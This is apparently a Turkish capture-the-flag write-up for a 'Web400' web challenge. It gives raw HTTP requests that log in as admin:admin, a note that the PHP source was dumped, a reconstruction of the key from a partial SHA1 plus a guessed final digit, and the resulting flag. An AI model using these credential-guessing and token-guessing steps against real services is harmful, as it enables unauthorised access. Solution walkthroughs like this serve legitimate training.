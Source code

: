 **Web400 Servis gibi servis :**



```
POST /86d37fde1020e969eca3d6436bddb4f5-04/ws/ws.php?islem=kayitOl&kullaniciAdi=admin&parola=admin HTTP/1.1
Host: 85.111.95.28
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.89 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://85.111.95.28/86d37fde1020e969eca3d6436bddb4f5-04/giris.html
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=a7ck5garq5olu9he3mkfbhj6h6
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 45

islem=kayitOl&kullaniciAdi=admin&parola=admin
```


ile admin:admin olarak login olundu , php kodu dump edildi.

Bu süreç içinde alınan mesaj ile anlaşılması gereken şey 10 defa deneme hakkımız olduğudur.

```
Buralar çok güzel, giriş yap sen de gel bence.
====================================
Admin Kullanıcısı

Doğru cevabı girmen için deneme hakkın 10 tane. Bulduğunda ödülünü de alacaksın. Ona göre:
```


Biraz kaynak kodu analiz ettikten sonra `key`in parolamızın sha1 inin ilk 16 lık kısmı olduğunu anladık.

Son karakter = random(0,9)

5. karakter 8. basamak

diğer kısımda ise:

```
sha1sumhex('admin')[0:16]
'd033e22ae348aeb5'
```

burdan olması gerektiğini biliyoruz

d03_389 (! son karakter için 0 dan 9 a  kadar teker teker elle denemek gerekiyordu 9 dan başlayınca flag geldi.)

```
POST /86d37fde1020e969eca3d6436bddb4f5-04/ws/bakalimDogrumu.php HTTP/1.1
Host: 85.111.95.28
Content-Length: 13
Cache-Control: max-age=0
Origin: http://85.111.95.28
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.89 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://85.111.95.28/86d37fde1020e969eca3d6436bddb4f5-04/ws/index.php
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=a7ck5garq5olu9he3mkfbhj6h6
Connection: close

deger=d03_389
```

```
Flag == U1RpeWtYWWN6ZEw3b1VqRnhPcVhFVlZBbmtMdjJhRmRkTnFYUUV0Nkg5MGRacDUwOXlBKyt6NXVwSG9OOXRhNzgzaSsvVWh5Y2c3UTNYb29kTmhpWXc9PQ==
```
